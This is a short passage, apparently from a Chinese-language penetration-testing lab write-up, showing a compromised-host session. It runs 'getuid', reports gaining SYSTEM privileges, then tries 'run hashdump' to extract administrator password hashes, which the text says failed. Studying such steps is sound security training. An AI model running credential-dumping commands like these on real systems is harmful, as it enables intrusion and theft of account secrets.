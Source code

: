 ![Alt text](image-24.png)   
查看当前用户
```shell
 getuid
```   
![Alt text](image-26.png)   
成功获取到SYSTEM。接下来获取管理员密码。   
```shell
 run hashdump
```   
运行出错。   